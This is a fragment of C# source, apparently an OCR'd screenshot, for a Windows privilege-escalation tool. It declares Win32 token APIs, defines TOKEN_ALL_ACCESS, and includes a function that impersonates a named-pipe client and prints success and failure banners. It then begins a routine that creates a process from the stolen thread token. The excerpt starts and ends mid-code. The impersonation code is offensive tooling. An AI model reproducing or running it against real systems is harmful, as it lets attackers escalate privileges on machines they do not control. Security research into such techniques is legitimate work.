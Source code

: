 ```
        IntPtr lpEnvironment,
        String lpCurrentDirectory,
        ref STARTUPINFO lpStartupInfo,
        out PROCESS_INFORMATION lpProcessInformation);

    [DllImport("KERNEL32", SetLastError = true)]
    [ResourceExposure(ResourceScope.None)]
    internal static extern IntPtr
        GetCurrentThread();

    [DllImport("ADVAPI32", SetLastError = true, EntryPoint = "OpenThreadToken")]
    [ResourceExposure(ResourceScope.None)]
    internal static extern bool
        OpenCurrentThreadToken(
            [In] IntPtr ThreadHandle,
            [In] UInt32 DesiredAccess,
            [In] bool OpenAsSelf,
            [Out] out IntPtr TokenHandle);


    [DllImport("kernel32.dll", SetLastError = true)]
    static extern IntPtr GetCurrentProcess();

    private const int GENERIC_ALL_ACCESS = 0x10000000;

    public const uint LOGON_WITH_PROFILE = 00000001;
    public const uint NORMAL_PRIORITY_CLASS = 0x00000020;
    private const uint CREATE_UNICODE_ENVIRONMENT = 0x00000400;
    private static uint STANDARD_RIGHTS_REQUIRED = 0x000F0000;
    private static uint STANDARD_RIGHTS_READ = 0x00020000;
    private static uint TOKEN_ASSIGN_PRIMARY = 0x0001;
    private static uint TOKEN_DUPLICATE = 0x0002;
    private static uint TOKEN_IMPERSONATE = 0x0004;
    private static uint TOKEN_QUERY = 0x0008;
    private static uint TOKEN_QUERY_SOURCE = 0x0010;
    private static uint TOKEN_ADJUST_PRIVILEGES = 0x0020;
    private static uint TOKEN_ADJUST_GROUPS = 0x0040;
    private static uint TOKEN_ADJUST_DEFAULT = 0x0080;
    private static uint TOKEN_ADJUST_SESSIONID = 0x0100;
    private static uint TOKEN_READ = (STANDARD_RIGHTS_READ | TOKEN_QUERY);
    private static uint TOKEN_ALL_ACCESS = (STANDARD_RIGHTS_REQUIRED | TOKEN_ASSIGN_PRIMARY |
        TOKEN_DUPLICATE | TOKEN_IMPERSONATE | TOKEN_QUERY | TOKEN_QUERY_SOURCE |
        TOKEN_ADJUST_PRIVILEGES | TOKEN_ADJUST_GROUPS | TOKEN_ADJUST_DEFAULT |
        TOKEN_ADJUST_SESSIONID);

    public static void impersonateHandle(IntPtr hpipe)
    {
        int a = ImpersonateNamedPipeClient(hpipe);
        if (a == 0)
        {
            Console.WriteLine("[!] failed imporsonate namedpipe");
        }
        else
        {
            Console.WriteLine(a);
            Console.WriteLine("[+] success imporsonate namedpipe");
        };
    }

    public static int CreateProcessbytoken() {
        IntPtr tokenhandle = IntPtr.Zero;
        if (!OpenCurrentThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS,false, out tokenhandle))
        {
```